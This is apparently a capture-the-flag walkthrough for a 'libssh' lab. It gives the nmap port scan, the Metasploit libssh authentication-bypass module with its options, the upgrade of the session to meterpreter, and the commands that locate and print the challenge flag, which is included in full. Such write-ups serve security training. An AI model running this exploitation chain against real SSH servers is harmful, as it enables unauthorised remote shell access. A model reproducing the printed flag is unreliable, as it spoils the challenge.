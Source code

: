 ## libssh

Start by running `nmap` to check open ports.

```sudo nmap <ip> -Pn```

port 22/tcp is open.

```nmap -sS -sV -p22 <ip>```

The service running on this port is SSH. Even though it says OpenSSH, the lab is called libssh, so let's stick with that. Let's run the Metasploit framework and search for libssh modules.

```
msfconsole -q
search libssh
```

We see `libssh_auth_pybass` module, let's use that and set our options.

```
use 0
show options
set SPAWN_PTY true
set RHOSTS <url>
exploit
```
After that is done, a session should be created. Check by running `sessions`. Once we receive the standard shell, upgrade it to the meterpreter session:

```sessions -u 1```

If upgrade is successful, good, if not, use the first session and hope for the best

```sessions -i 1```

Once we get the shell, we can mess around with it to discover the flag file. What works in this case:

```
ls -l
cd ../
ls -l
cat flag.txt
```

_CTF{754a4874399c6c15f6f12d31bccb438d1d42b540e5cec9c2371a831bb1eabeed}_